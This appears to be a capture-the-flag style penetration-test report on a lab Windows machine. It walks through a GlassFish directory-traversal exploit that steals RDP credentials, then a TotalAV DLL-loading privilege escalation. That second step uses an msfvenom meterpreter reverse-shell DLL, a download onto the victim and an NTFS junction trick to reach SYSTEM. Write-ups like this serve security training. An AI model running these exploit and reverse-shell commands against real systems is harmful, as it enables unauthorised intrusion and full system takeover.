# Report - Fish

Author: Henry Post
Target: Fish
Target IP: 192.168.56.168
Date: 03/14/2026

## Executive Summary

This machine, `Fish`, was enumerated by nmap to have `rdp` port `3389` and GlassFish ports `8080,4848` open.

GlassFish was vulnerable to `CVE-2017-1000028`, a directory traversal vulnerability. This was exploited to gain RDP credentials from SynaMan.

The RDP credentials were used to login as `arthur`, and the user flag was taken.

From there, a reverse shell listener was created on the attacker, a malicious DLL was sent to the victim, and `CVE-2019-18194`, a DLL loading vulnerability involving TotalAV, was exploited to get SYSTEM access and take the root flag.

## Recommendations

Do not expose unnecessary services.

Update GlassFish to the latest patched version.

Update TotalAV to the latest non-vulnerable version.

## Recon

An `nmap` scan shows a few open ports - RDP and GlassFish.

    nmap -sS -sV 192.168.56.168



## Non-root access

I searched through `exploit-db.com` for an exploit targeting GlassFish, and found one - CVE-2017-1000028. There was also a related Metasploit module.



	search CVE-2017-1000028
	use 0



I do some googling, and find out that SynaMan stores its credentials file at `C:\SynaMan\config\AppConfig.xml`.

We need to set these options:

- `set FILEPATH /SynaMan/config/AppConfig.xml`
- `set RHOSTS 192.168.56.168`
- `set RPORT 4848`



We steal a credential from that file - `arthur:KingOfAtlantis`.



We then use `rdesktop` and get RDP access.

    rdesktop -u arthur -p KingOfAtlantis 192.168.56.168:3389



We got the user flag.

## SYSTEM access

To get Windows SYSTEM access, TotalAV was used to load a malicious DLL.

### Generating msfvenom reverse shell payload

We generate an `msfvenom` payload. When the victim executes it, it gives us a shell with SYSTEM level privileges.

Please note the attacker/victim IPs are now different due to resuming this lab on a different day. 

    export ATTACKER_IP=192.168.49.58
    msfvenom -p windows/meterpreter/reverse_tcp lhost=$ATTACKER_IP lport=4444 -f dll > totalavpwn.dll



We serve the payload.

    python3 -m http.server 8888



We download the payload from the victim's machine, and create a folder we will use as an NTFS junction later.

    cd ~
    mkdir MountPoint
    Invoke-WebRequest -Uri "http://192.168.49.58:8888/totalavpwn.dll" -OutFile "C:\users\arthur\MountPoint\version.dll"



We start a listener on the attacker to receive the rev shell.

    msfconsole
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 192.168.49.58
    set lport 4444
    run



We will now set up a mount point that will eventually place the malicious DLL into the `C:\Windows\Microsoft.NET\Framework\v4.0.30319\version.dll`.

We need to scan the `version.dll` DLL first with TotalAV.

1. Scan the `MountPoint` folder with TotalAV and quarantine the threat.









2. Create an NTFS Junction on the victim with `New-Item -ItemType Junction -Path "C:\Users\Arthur\MountPoint" -Target "C:\Windows\Microsoft.NET\Framework\v4.0.30319"`





3. Restore a threat in TotalAV



4. Reboot windows victim with `shutdown /r /t 0` and wait



5. Receive reverse shell connection on attacker
6. We have SYSTEM access.

